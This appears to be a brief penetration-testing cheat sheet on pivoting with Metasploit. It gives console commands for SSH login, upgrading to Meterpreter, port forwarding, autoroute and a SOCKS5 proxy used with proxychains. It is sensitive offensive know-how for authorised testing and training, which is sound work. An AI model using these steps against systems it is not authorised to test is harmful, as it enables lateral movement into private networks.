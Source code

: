 # Metasploit

# Usage:

#### route add/del IP SUBNET [COMM/SID] (proxy)

#### portfwd add/del -l PORT -p PORT -r IP (port forwarding)

## On a Meterpreter session, run:

    run autoroute -s TARGET_SUBNET/MASK

## Port Forwarding with Metasploit

### 1) With SSH login

 - use auxiliary/scanner/ssh/ssh_login

 - set rhosts RHOSTS

 - set username USERNAME

 - set password PASSWORD

 - exploit

 - sessions -u 1 (Upgrade to Meterpreter session. Creates an EXTRA session with meterpreter)

 - sessions 2

 - netstat -antp (Check for applications that run internally within the target)

 - portfwd add -l LOCAL_PORT -p TARGET_PORT -r 127.0.0.1

## Tunneling with Metasploit

### 1) autoroute (Deprecated)

 - sessions

 - use post/multi/manage/autoroute

 - set session SESSION_NUM

 - exploit

 - use auxiliary/server/socks5

 - set srvhost 127.0.0.1

 - exploit

### Then go to web browser in Kali and make the manual proxy configuration settings

## TIP: Instead, we can use proxychains to connect to internal machines in the network

### Same steps apply to socks4a proxy
